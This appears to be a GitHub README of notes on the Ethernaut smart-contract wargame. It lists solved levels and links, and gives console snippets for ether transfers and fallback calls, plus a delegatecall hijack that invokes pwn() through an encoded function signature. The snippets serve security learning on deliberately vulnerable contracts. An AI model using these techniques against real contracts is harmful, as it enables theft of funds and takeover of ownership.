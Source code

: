## Website
https://ethernaut.openzeppelin.com/

## Completed
0. Hello Ethernaut ✔
1. Fallback ✔
2. Fallout ✔
3. CoinFlip ✔
4. Telephone ✔
5. Token ✔
6. Delegation ✔
7. Force ✔
8. Vault ✔
9. King ✔
10. Re-entrancy ✔
11. Elevator ✔

## Other useful sites:

https://www.pauric.blog/How-To-Hack-Ethereum-Contracts-The-Easy-Way/

https://trufflesuite.com/docs/truffle/getting-started/interacting-with-your-contracts

## Other Notes:

player is you
get the balance using
```
getBalance(player)
```

interact with the `contract`
```
(await contract.contributions(player)).toString();
await contract.contribute.sendTransaction({value: toWei(.0009)})
```
contract is a truffle object. can do fallback methods using
```
contract.sendTransction({value: 50000000});
```


### Delegate call with encoding of function signature
```
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
  
  # Called with
  await contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature("pwn()")})
  
```

### Sending Ether
https://solidity-by-example.org/sending-ether/

### Re-Entrancy!!
https://solidity-by-example.org/hacks/re-entrancy/


